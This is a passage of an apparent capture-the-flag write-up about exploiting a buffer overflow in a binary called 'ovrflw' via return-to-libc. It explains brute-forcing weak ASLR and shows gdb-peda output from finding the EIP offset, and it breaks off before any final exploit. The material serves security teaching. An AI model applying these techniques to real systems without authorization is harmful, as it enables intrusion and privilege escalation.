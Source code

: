 

NX means that I can't run shellcode from the stack, which is where I can
write.

I recently did an introduction to Return to libc attacks in the [Frolic
write-up](/htb-frolic.md). The big difference here is that
ASLR is enabled. However, if I look at the `ldd` output, I'll notice
that the address is really only changing between `0xb7500000` and
`0xb76ff000`. It looks like at most one byte plus one bit are changing,
or nine bits, or 512 options. That means if I guess once, I have a
(511/512)^1^ = 99.8% chance of failure, or a 1 - (511/512)^1^ = 0.2%
chance of success. But if I try 500 times, I have a 1 - (511/512)^500^ =
62.38% chance of success. After 1000 guesses, I have a 1 -
(511/512)^1000^ = 85.84% chance of succeeding. And since there's nothing
to stop me from calling the program over and over again. I'll go that
route.

### ovrflw Find Offset

First thing I need to do is to find the offset to EIP in my input. I'll
open the binary with `gdb`, and I have my `gdb` set to automatically
load [PEDA](https://github.com/longld/peda).



    root@kali# gdb -q ./ovrflw
    Reading symbols from ./ovrflw...(no debugging symbols found)...done.
    gdb-peda$



I'll use `pattern_create` (part of PEDA, also available as a stand-alone
binary from Metasploit) to create a non-repeating pattern 500 long. I'll
pass that into the program and run it:



    gdb-peda$ pattern_create 500
    'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'
    gdb-peda$ run 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'
    [----------------------------------registers-----------------------------------]
    EAX: 0x0 
    EBX: 0x0 
    ECX: 0xffffd3e0 ("As6A")
    EDX: 0xffffd0fc ("As6A")
    ESI: 0xf7f99000 --> 0x1d9d6c 
    EDI: 0xf7f99000 --> 0x1d9d6c 
    EBP: 0x6941414d ('MAAi')
    ESP: 0xffffcf80 ("ANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8"...)
    EIP: 0x41384141 ('AA8A')
    EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x41384141
    [------------------------------------stack-------------------------------------]